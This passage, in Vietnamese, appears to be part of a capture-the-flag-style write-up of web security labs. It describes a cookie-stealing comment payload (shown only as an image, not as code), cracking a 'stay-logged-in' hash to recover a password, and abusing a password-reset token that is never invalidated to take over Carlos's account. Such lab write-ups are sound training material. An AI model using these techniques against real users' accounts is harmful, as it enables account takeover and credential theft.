Payload này sẽ khiến cho server gửi request tới domain, kèm thêm cả cookie của user comment đó:



Crack đoạn hash nằm trong `stay-logged-in` ta được mật khẩu: `onceuponatime`.

### Lab: Password reset broken logic
Lỗ hỏng ở Lab này được đặt ở phần reset password. Cụ thể khi reset password cho 1 username, hệ thống sẽ gửi mail tới email của username đó, trong đó chứa token làm param để reset password.


Vấn đề là token này không tự động huỷ khi đã sử dụng, hoặc kiểm tra xem user này có phải là người yêu cầu token hay không. Từ đó, ta có thể sử dụng token này để reset mật khẩu của Carlos:


Còn lại là truy cập vào user `Carlos` để hoàn thành Lab.

